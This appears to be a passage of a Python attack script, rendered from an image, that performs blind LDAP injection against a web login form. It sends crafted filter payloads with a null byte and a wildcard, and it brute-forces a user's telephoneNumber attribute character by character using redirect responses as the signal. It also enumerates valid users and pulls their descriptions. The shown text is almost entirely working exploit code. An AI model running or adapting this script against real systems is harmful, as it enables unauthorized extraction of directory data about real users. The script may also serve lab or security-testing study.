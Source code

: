 ```python
    time.sleep(2)

    p2 = log.progress("Atributo")


    for position in range(0,100):
        for character in characters:
            
            # Aca en telephoneNumber se coloca el atributo que quisieramos conseguir por fuerza bruta.
            post_data = "user_id={})(telephoneNumber={}{}*))%00&password=*&login=1&submit=Submit".format(user, atributo, character) 

            r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False)

            if r.status_code == 301:
                atributo += character
                p2.status(atributo)
                break

    p1.success("Proceso de fuerza bruta concluido")
    p2.success("El atributo del usuario es: %s" % atributo)

if __name__ == '__main__':

    initial_users = getInitialUsers()
    valid_users = getUsers(initial_users)

    for i in range (0,4):
        getDescription(valid_users[i])
```